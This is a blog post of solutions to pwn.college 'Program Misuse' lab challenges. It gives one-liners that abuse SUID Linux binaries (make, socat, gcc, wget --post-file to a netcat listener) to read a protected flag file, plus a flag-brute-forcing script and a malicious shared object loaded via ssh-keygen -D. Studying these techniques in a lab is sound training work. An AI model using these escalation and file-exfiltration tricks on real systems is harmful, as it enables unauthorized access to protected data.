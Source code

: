 ```yaml
---
layout: post
title:  "Pwn College - Program Misuse"
date:   2024-04-26 19:59:44 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Overview

This module deals with exploiting many different linux binaries, set as `suid`. \
It's pretty cool, as it teaches some non-trivial behaviors of binaries, which we usually won't take a look into. 

This page contains solutions for selected challenges. 


## Challenge 11

```bash
od -A n -x --endian=big /flag | xxd -p -r
```

## Challenge 12

```bash
hd /flag | xxd -p -r
```

## Challenge 17

```bash
gzip -c -d /flag.gz
```

## Challenge 19

```bash
zip -r /flag /flag
cat /flag.zip
```

## Challenge 23

`genisoimage ` - allows creating ISO9660 filesystem, and more. \
[genisoimage docs][genisoimage docs] 

According to the docs, this binary is safe as suid. This is, of course, pure bs. 

I’ve wrote the following script that goes through all of the possible flags involving outer file interaction, as follow:

```python
import subprocess as sp
import mmap
import os

def check():
    try:
        with open('/home/hacker/itay_gen', 'rb', 0) as file, mmap.mmap(file.fileno(), 0, access=mmap.ACCESS_READ) as s:
            if s.find(b'pwn') != -1:
                return True
    except ValueError:
        print('Empty file')
        return False
    return False

os.dup2(1, 2)

with open('gen_flags', 'r') as f:
    data = f.readlines()
    for line in data:
        flag = line.split(' FILE')[0].strip().split()[0]
        print('Trying flag:', flag)
        cmd = '/usr/bin/genisoimage -input-charset utf-8 {} /flag -o /home/hacker/itay_gen /home/hacker/gen_test'.format(flag)
        p = sp.Popen(cmd, shell=True, stdin = sp.PIPE, stdout = sp.PIPE, close_fds = False)
        stdout, stderr = p.communicate()
        if check():
            break
```

I got many interesting results, such as segmentation fautls involving `-hppa-kernel-64`!

The interesting flag however is `-sort`, which simply gives the flag. 

## Challenge 26

```bash
make --eval=$'x:\n\t-'"cat /flag"
```

## Challenge 31

```bash
watch -x cat /flag
```

## Challenge 32

```bash
socat stdin EXEC:"cat /flag"
```

## Challenge 33

```bash
whiptail --textbox /flag 20 80
```

## Challenge 34

```bash
awk '//' /flag
```

## Challenge 36

```bash
ed
G/pwn*/
```

## Challenge 39

```bash
cp --no-preserve=mode /flag ~/flag
```

## Challenge 40

Same principle as: [windows-sticky-keys][windows-sticky-keys]. 

Move `/flag` to `/usr/bin/mv`, then execute it (can give it suid priviledges via activating the challenge once again).

## Challenge 43

[ruby-suid][ruby-suid]

## Challenge 44

Teaches a very important concept - execute `bash` with flag `-p`, for priviledges to NOT DROP!!

## Challenge 48

```bash
gcc -x c /flag
```

## Challenge 50

```bash
# Terminal 1
nc -lnvp 1337
# Terminal 2
wget --post-file=/flag 127.0.0.1:1337
```

`-i` input file doesn’t work - because URLs are given ONLY in lowercase letters, changing some letters of the flag.

## Challenge 51

This one is pretty cool. 

`ssh-keygen -D` allows loading a shared object file to the binary. \
Loaded `.so`:

```c
#include <stdio.h>
#include <sys/sendfile.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int C_GetFunctionList()
{
        int flag_fd = open("/flag", O_RDONLY);
        sendfile(1, flag_fd, 0, 100);
        puts("This is a shared lib!\n");
        return 0;
}

// OR:

__attribute__((constructor))
void run_first()
{
        puts("CTOR has been called!\n");
}
```

Recall `__attribute__((constructor))` runs prior to any function being called from the .so file. \
These attributes basicly adds pointer refernces to the function’s symbols within the `.ctors` and `.dtors` sections. \
The program runs `.ctors` upon .so load (which occurs during `dlopen()` at our challenge), and runs `.dtors` upon .so unload(during `dlclose()`). \
ctors and dtors are given with priorities of execution order, having values starting from `100`.

See more in [attribute-constructor][attribute-constructor]. 

`.init` and `.fini` sections are kind of old-school version of this. \
However, note that `.init` code runs before `.ctors` code! (and `.fini` runs after `.dtors`). \

We can activate them by the `-init` or `-fini` GCC flags, however they can only support a single function. 

See more in [elf-init][elf-init].

Now back to the challenge:

```bash
gcc -fpic -shared shared_lib.c -o shared_lib.so
ssh-keygen -D ./shared_lib.so
```

[genisoimage docs]: https://gtfobins.github.io/gtfobins/genisoimage/
[windows-sticky-keys]: https://scriptingis.life/2017-7-17-Sticky-Keys/
[ruby-suid]: https://www.ruby-forum.com/t/safe-0-for-setuid/186309/2
[attribute-constructor]: https://stackoverflow.com/questions/2053029/how-exactly-does-attribute-constructor-work
[elf-init]: https://www.flipcode.com/archives/Calling_A_Function_At_ELF_Shared_Library_Load_Time.shtml
